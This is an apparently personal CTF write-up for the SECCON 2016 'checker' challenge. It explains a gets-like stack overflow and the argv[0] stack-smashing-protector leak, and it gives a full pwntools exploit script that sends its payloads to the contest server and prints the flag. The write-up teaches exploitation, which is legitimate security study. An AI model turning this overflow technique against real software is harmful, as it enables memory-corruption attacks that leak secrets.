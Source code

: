 ```yaml
---
title: SECCON CTF 2016 -- checker
layout: single
comments: true
share: true
related: true
author_profile: true
permalink: "/:title/"
tags:
- SECCON
- CTF
- BOF
- Pwnable
- Python
categories:
- write-ups
date: '2016-12-12 08:02:00 +0000'
---
```


**Category:** Exploit
**Points:** 300

<!-- more -->  

64 bit ELF with Full RELRO, stack canary, NX enabled, No PIE.  

A quick run of the program: 
```
$ ./checker 
Hello! What is your name?
NAME : 123

Do you know flag?
>> 123

Do you know flag?
>> yes

Oh, Really??
Please tell me the flag!
FLAG : asdf
You are a liar...
```

By reversing the binary, we found that the program use a function named `getaline()` to read the user input. 
```c
while ( buf && read(0, &buf, 1uLL) )
{
    if ( buf == 10 )
        buf = 0;
    *(_BYTE *)(a1 + (signed int)v4++) = buf; // a1 = input buffer
}
```
We can see that the `getaline()` function is just like `gets()` in `stdio.h`, so the program itself has multiple stack overflow vulnerabilities.   

```
$ ./checker
Hello! What is your name?
NAME : 123

Do you know flag?
>> yes

Oh, Really??
Please tell me the flag!
FLAG : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
You are a liar...
*** stack smashing detected ***: ./checker terminated
[1]    70548 abort      ./checker
```

Although we can easily overwrite the return address, however the program has the stack smashing protector (SSP) enabled. Luckliy, the program will read the flag's content and stored it into a buffer which lies in the `.bss` section before entering the main function. So, we can try to **overwrite the content of `argv[0]` ( which stores a `char*` pointer of the program file path ) into the flag buffer's address**. Then, we smash the stack and trigger the SSP, which will then output the following error message: 
```
*** stack smashing detected ***: [flag content] terminated
```

Notice that the original content of `argv[0]` stores a 6 bytes memory address, while the flag's buffer address is 3 bytes (`0x6010c0`). So we'll have to null out the `argv[0]` first before we change it into `0x6010c0`, or else it will crash the program before it was able to output the error message.  
```python
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST = "checker.pwn.seccon.jp"
PORT = 14726
ELF_PATH = "./checker"
LIBC_PATH = ""

# setting 
context.arch = 'amd64'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32
# ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.log_level = 'INFO'

elf = ELF(ELF_PATH)
#libc = ELF(LIBC_PATH)

def my_recvuntil(s, delim):
    res = ""
    while delim not in res:
        c = s.recv(1)
        res += c
        sys.stdout.write(c)
        sys.stdout.flush()
    return res

def myexec(cmd):
    return subprocess.check_output(cmd, shell=True)


if __name__ == "__main__":

    r = remote(HOST, PORT)
    #r = process(ELF_PATH)

    pad = 0x178

    r.sendlineafter(": ", "aaaa")
    
    # null out argv[0]
    for i in xrange(8,-1,-1):
        payload = "A"*pad + "B"*i
        r.sendlineafter(">> ", payload)
    
    r.sendlineafter(">> ", "yes")

    # overwrite argv[0] to flag buffer
    payload = "A"*pad + p64(0x6010c0)
    
    r.sendlineafter(": ", payload)
    r.interactive()
    
```

Although the exploit works on the local machine, it failed to work on the remote side. I sent the payload for like a hundred times and it just won't give me the flag. It really frustrated me at that moment because I was so close to capture the flag and the contest is about to end in 5 minutes......  

But there's nothing more I can do, so I just keep sending the same payload again and again, hoping that  it will work at the end of the contest. And then, something amazing happened...
```
[+] Opening connection to checker.pwn.seccon.jp on port 14726: Done
You are a liar...
*** stack smashing detected ***: SECCON{y0u_c4n'7_g37_4_5h3ll,H4h4h4} terminated
[*] Got EOF while reading in interactive
```

lol WTF ? 

I still don't know why it will work at the very end of the contest until now ! I mean it's the same payload ! How is this even possible ? Anyway I managed to submit the flag right before the end of the contest and get the damn 300 points ... What an end @_@!  

flag: `SECCON{y0u_c4n'7_g37_4_5h3ll,H4h4h4}`